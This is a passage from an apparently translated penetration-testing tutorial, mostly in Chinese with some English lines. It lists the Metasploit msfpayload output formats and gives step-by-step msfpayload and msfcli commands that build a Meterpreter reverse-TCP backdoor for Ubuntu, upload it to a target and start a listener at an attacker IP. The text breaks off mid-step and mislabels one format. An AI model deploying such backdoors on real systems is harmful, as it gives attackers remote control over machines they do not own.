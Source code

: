 下面的屏幕截图演示了之前的命令：

![Preparing payloads with Metasploit](graphics/5107OT_04_05.jpg)

有许多方法可以根据您希望使用的代码格式来表示各种有效负载。以下是可用的选项：

*   `R`：这是针对原始二进制格式。
*   `C`：这是 C 代码
*   `y`：这是针对 Ruby 代码的
*   `H`：这是 C 代码
*   `P`：这是针对 Perl 代码的
*   `J`：这是针对 JavaScript 的
*   `X`：用于可执行格式
*   `D`：用于动态链接库（DLL）
*   `V`：这是 VBA 代码
*   `W`：这是战争档案

以下屏幕截图展示了这些选项中的一些选项的效果：

![Preparing payloads with Metasploit](graphics/5107OT_04_06.jpg)

每个选项的存在都是为了满足在不同操作系统和运行时环境中的利用。

# 创建和部署有效负载

例如，我们将为 Ubuntu 32 位机器创建后门。执行以下步骤以执行此操作：

1.  Create the payload in an executable format. Here, we will use a Meterpreter shell and save it in a file called `backdoor`. The following command will achieve this:

    ```
    msfpayload linux/x86/meterpreter/reverse_tcp LHOST=[Attacker IP] X > backdoor

    ```

    `LHOST`是您作为攻击者使用的机器的 IP 地址，或者更确切地说是您希望与后门进行交互的机器的 IP 地址。

    有关示例，请参见以下屏幕截图：

    ![Creating and deploying a payload](graphics/5107OT_04_07.jpg)

2.  在目标主机上部署后门。这一步显然将取决于您对上述主机的访问。对于我们的示例，我们只需使用`scp`将其上传到给定用户的主文件夹。
3.  Start a Metasploit handler on the attacker machine with the following code:

    ```
    msfcli multi/handler payload=linux/x86/Meterpreter/reverse_tcp LHOST=[attacker IP]

    ```

    例如，使用以下命令启动 Metasploit 处理程序：

    ```
    msfcli multi/handler payload=linux/x86/Meterpreter/reverse_tcp LHOST=192.168.10.103

    ```

4.  Execute the payload on the target host. For our example, this will simply involve starting the payload as shown in the following screenshot:
